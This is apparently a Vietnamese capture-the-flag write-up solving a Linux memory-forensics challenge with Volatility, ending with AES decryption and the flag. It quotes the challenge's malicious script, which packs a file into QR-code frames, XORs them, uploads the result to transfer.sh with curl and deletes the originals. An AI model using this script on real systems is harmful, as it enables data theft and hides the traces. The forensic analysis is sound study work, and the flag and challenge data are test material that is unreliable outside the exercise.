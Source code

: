 Đề bài tên là `Linux is hurt`, vì thế ta đoán file `mem.bin` đã cho là dump file của Linux.

Mình sử dụng tool `volatility` để phân tích file này, tuy nhiên vol gốc chỉ hỗ trợ cho các file profile Windows thôi, nên ta tiến hành build profile khác vào vol:

> strings mem.bin | grep Version

![Screenshot (3975)](https://github.com/NVex0/uWU/assets/113530029/d3d94a2e-f148-48c8-82a1-b65f8d2538de)

Ta lấy được tên Ubuntu20.04, tiến hành docker trên ubuntu20.04 để lấy được thông tin kernel và các thông tin khác cần thiết. Zip lại thành file `Ubuntu2004.zip`. Ném vào path `/volatility/plugins/overlays/linux`. Check lại profile list của vol:

![image](https://github.com/NVex0/uWU/assets/113530029/614dd4c0-29b8-4747-9e11-389e74fb768c)

Build xong rồi :v, sử dụng profile này và phân tích file đó.

Với Plugins `linux_bash`, ta thấy 1 số thông tin thú vị:

![image](https://github.com/NVex0/uWU/assets/113530029/88746497-6047-4e08-834d-1dc12615c5ea)

Ta thấy user đã tải về 1 file tên `toy.zip`, mở ra và làm 1 số thứ gì đó khả nghi (ta thấy có file enc, tức là user đã tiến hành encrypt gì đó).

Vì thế mình nghĩ tới việc dump file zip này ra để xem, ta sẽ grep để kiếm full path:

![image](https://github.com/NVex0/uWU/assets/113530029/e467885a-440c-4908-8cc1-061d5964ea36)

Sau đó tìm file đó bằng plugin `linux_find_file`:

![image](https://github.com/NVex0/uWU/assets/113530029/31318a24-5179-4364-a241-61ad00a7a7d2)

Oke, đã có Inode của file, dump file zip ra:

> python2 vol.py -f ~/Desktop/mem.bin --profile=LinuxUbuntu2004x64 linux_find_file -i 0xffff9b12ec30cdf8 -O toy.zip

Trên bash history, đoạn command 7z có set password: `maltoy`. Sử dụng pass này để mở zip. Tuy nhiên sau đó mình chỉ lấy được file `deman.sh` :(

Sau khi hỏi Author thì mình có thêm 1 file pcap nữa, mà file này khi extract ra ta sẽ được `toy.zip` đúng, mình mở zip và lấy được cả 2 file như sau:

![image](https://github.com/NVex0/uWU/assets/113530029/f4fa99c2-631f-484a-bb93-f6b701d8b975)

Mở file `demand.sh`:
```
#!/bin/bash
file="$1"
output="$2"
if [ -z "$output" ]; then
    output = "output"
fi
if [ ! -f "$file" ]; then
    exit 1
fi
if [ "$(uname)" == "Darwin" ]; then
    filesize=$(stat -f "%z" "$file")
else
    filesize=$(stat -c%s "$file")
fi
chunksize=64
nchunks=$((filesize/chunksize))
for i in $(seq 0 $nchunks); do
    dd if="$file" of=chunk_"$i" bs="$chunksize" skip="$i" count=1
done
for i in $(seq 0 $nchunks); do
    qrencode -t png -o frame_"$i".png < chunk_"$i" -s 9
done
if [ "$(uname)" == "Darwin" ]; then
    ffmpeg -y -r 10 -i frame_%d.png $output
else
    ffmpeg  -i frame_%d.png $output  -y -r 10
fi
rm -f chunk_*
rm -f frame_*
xortool-xor -f $output -h $(openssl rand -hex 100) > $output.kcs
curl --upload-file ./$output.kcs https://transfer.sh/robots.txt
rm -f $output.kcs
rm -f $output
rm -f $1
```
Vậy là ta hiểu bash `demand.sh` cắt file đầu vào thành nhiều chunk, sau đó encode các chunk đó sang dạng ảnh QR, ghép QR lại thành 1 file GIF, cuối cùng upload nó lên `transfer.sh`.

Sau khi tìm hiểu thì mình biết web transfer.sh này, sau khi upload file lên đó, nó sẽ trả về 1 link dẫn tới file này cho bất kì người nào khác. Tiến hành grep ra:

![image](https://github.com/NVex0/uWU/assets/113530029/ffdfbc3b-c19c-46ca-b5b8-3249a7ee903f)

Um, ta có được link tới file đầu ra này: https://transfer.sh/vXpvqj/robots.txt . Tải nó về thôi :D

Dựa theo bash code, ta sẽ dịch ngược lại data gốc. Mình sẽ tóm tắt các bước dịch ngược lại như này:

1. Xử lí xor. `xortool-xor -f $output -h $(openssl rand -hex 100) > $output.kcs`
2. Cắt `$output` để lấy lại các frame ảnh.
3. QR frame -> data.
4. Ghép data lại.

Ở bước 1, `$output` đã bị Xor với 1 random key 100 bytes. Mình sử dụng `xortool` để bruteforce lại cái key này.

Để ý bash history: `./deman.sh qr.png.enc out.gif`. Ta biết được `$output` là 1 bức ảnh gif, vì thế mình biết được bytes xuất hiện nhiều nhất trong gif là `00` (no data).

Run command sau:

![image](https://github.com/NVex0/uWU/assets/113530029/86996f87-e499-4e1b-83c1-a4a8ef44b1ab)

Ra đúng 1 key :v, xem thử đầu ra nào.

![image](https://github.com/NVex0/uWU/assets/113530029/61f01103-3671-4b07-95ab-e60956b8d596)

File GIF, ngon rồi. Sau đó tách các frame trong gif ra:

> ffmpeg -i 0.gif -r 10 -vsync 0 Frame_%d.png

Vì bước này mình không biết tool nào QR -> data nên mình ném từng ảnh 1 lên tool 😢

Với 7 frame đã có, decode QR và được các data như sau:

`s1VGv0oBj4Wsz+GqR5nYdw==OSxMSZRlAgmv+fLDdm2ZJJeABsi1ZLN20vLYG2EFo+ccZsR/0bljlnC3hRRCLlskMGCd1N5Ci2st7CY9sz65YRWaHWkY1lnspuBzOnRvOGibepJNEYwU/tNstEGC7xh7MElaVRgDyY8PzvKiQ5uCtElFI3I23QSP4KI5AtQReN0d7dvOQ9nqHgtTVr3wSVt6tPhLKQg1INiZDsjwELvYgXcx6QOpOn3GhJB8TzksZ7eksCs9BJ06RTRRPdHtKHAlLDxItgKo2yctR2lkcQMGU0nQDQW/YNx4medptGqR8gjxR0SSC/xHyfFCYigWRIpQSN9ywVrs4RgBIUwqEH0Pr6lbE8URcuvm/9OVcPcRXbokwfNHRNWabPF6pLmgnaETbFwfiBKAcEA6dmLvviSPMg==`

Vậy là ta đã có được data gốc rồi :v.

|
|
Tiếp tới file `evil`, file đó là 1 file `ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=8203f620bc278dd6a87dfca5cfeebceecc1998bd, for GNU/Linux 2.6.32, stripped`

Khi run thử thì thấy:

![image](https://github.com/NVex0/uWU/assets/113530029/d0f44c2a-a47d-47f0-a988-feebd1879cb9)

Oh, vậy đây là 1 file gốc python, mình dùng `pyintxtractor.py` và `uncompyle6` để lấy được py nguyên bản:

![image](https://github.com/NVex0/uWU/assets/113530029/2f8ddfec-bd3d-4cc7-9c5c-d1928b700d5b)

Dựa vào code, ta biết file `evil` lấy 2 đầu vào để tiến hành encrypt, sau đó write `iv` ghép với `ciphertext`. Từ đó dựa vào data mà mình có ở bước decode QR lấy data trên, ta có được:
+ iv : s1VGv0oBj4Wsz+GqR5nYdw==
+ ciphertext : OSxMSZRlAgmv+fLDdm2ZJJeABsi1ZLN20vLYG2EFo+ccZsR/0bljlnC3hRRCLlskMGCd1N5Ci2st7CY9sz65YRWaHWkY1lnspuBzOnRvOGibepJNEYwU/tNstEGC7xh7MElaVRgDyY8PzvKiQ5uCtElFI3I23QSP4KI5AtQReN0d7dvOQ9nqHgtTVr3wSVt6tPhLKQg1INiZDsjwELvYgXcx6QOpOn3GhJB8TzksZ7eksCs9BJ06RTRRPdHtKHAlLDxItgKo2yctR2lkcQMGU0nQDQW/YNx4medptGqR8gjxR0SSC/xHyfFCYigWRIpQSN9ywVrs4RgBIUwqEH0Pr6lbE8URcuvm/9OVcPcRXbokwfNHRNWabPF6pLmgnaETbFwfiBKAcEA6dmLvviSPMg==

Với key, mình grep:
> strings mem.bin | grep -w ./evil -A 50

Và lấy được thông tin:

![image](https://github.com/NVex0/uWU/assets/113530029/bf489bb2-f3f3-41f5-933e-9101feef2850)
Vậy là có key, key là `5.15.0-kali3`. 

Thông tin cần thiết đã có đủ :v, mình viết script sau để decrypt nó ra:

```
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad
from Crypto.Util.Padding import unpad
import base64 

data ='OSxMSZRlAgmv+fLDdm2ZJJeABsi1ZLN20vLYG2EFo+ccZsR/0bljlnC3hRRCLlskMGCd1N5Ci2st7CY9sz65YRWaHWkY1lnspuBzOnRvOGibepJNEYwU/tNstEGC7xh7MElaVRgDyY8PzvKiQ5uCtElFI3I23QSP4KI5AtQReN0d7dvOQ9nqHgtTVr3wSVt6tPhLKQg1INiZDsjwELvYgXcx6QOpOn3GhJB8TzksZ7eksCs9BJ06RTRRPdHtKHAlLDxItgKo2yctR2lkcQMGU0nQDQW/YNx4medptGqR8gjxR0SSC/xHyfFCYigWRIpQSN9ywVrs4RgBIUwqEH0Pr6lbE8URcuvm/9OVcPcRXbokwfNHRNWabPF6pLmgnaETbFwfiBKAcEA6dmLvviSPMg=='
data = base64.b64decode(data)

key = '5.15.0-kali3'
key = key.encode('UTF-8')
key = pad(key, AES.block_size)
iv = base64.b64decode('s1VGv0oBj4Wsz+GqR5nYdw==')
cipher = AES.new(key, AES.MODE_CFB, iv)
plaintext = cipher.decrypt(data)
plaintext = unpad(plaintext, AES.block_size)


#Vì là decrypt từ qr.png.enc mà, nên out file là qr.png.
f = open('qr.png','wb')
f.write(plaintext)
f.close()
```

Ngon liền :v
![image](https://github.com/NVex0/uWU/assets/113530029/e8b4814e-2f54-4101-acde-e9f772efd5c0)

Decode ra và ta được flag:

Flag : `KCSC{K1_n13m_L1nuX}`
